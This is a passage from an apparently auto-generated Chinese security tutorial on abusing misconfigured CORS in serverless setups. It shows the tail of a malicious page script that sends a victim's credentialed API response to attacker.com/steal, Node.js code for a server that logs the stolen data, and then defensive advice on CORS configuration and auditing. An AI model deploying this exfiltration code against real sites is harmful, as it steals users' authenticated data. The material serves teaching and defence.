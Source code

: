            credentials: 'include'
         })
         .then(response => response.json())
         .then(data => {
           fetch('https://attacker.com/steal', {
             method: 'POST',
             body: JSON.stringify(data)
           });
         });
       </script>
     </body>
     </html>
     ```

3. **搭建攻击者服务器**：
   - 使用Node.js或Python搭建一个简单的HTTP服务器，用于接收窃取的数据。
   - 示例代码（Node.js）：
     ```javascript
     const http = require('http');

     http.createServer((req, res) => {
       let body = '';
       req.on('data', chunk => {
         body += chunk;
       });
       req.on('end', () => {
         console.log('Stolen data:', body);
         res.end();
       });
     }).listen(8080);
     ```

4. **执行攻击**：
   - 在浏览器中访问恶意网页，观察攻击者服务器是否接收到窃取的数据。

## 5. 防御措施

### 5.1 严格配置CORS
- **限制允许的源**：仅允许可信的源访问资源，避免使用`*`。
- **动态源验证**：确保动态验证请求源的逻辑正确，防止伪造源。

### 5.2 避免携带敏感凭证
- **限制跨域请求的凭证**：仅在必要时允许跨域请求携带凭证，并确保目标API的安全。

### 5.3 定期审计和测试
- **定期审计CORS配置**：确保CORS配置符合安全要求。
- **进行安全测试**：使用工具（如OWASP ZAP）测试CORS配置的安全性。

通过以上措施，可以有效防御无服务器CORS滥用的攻击，保护敏感数据和用户隐私。

---

*文档生成时间: 2025-03-14 10:42:36*
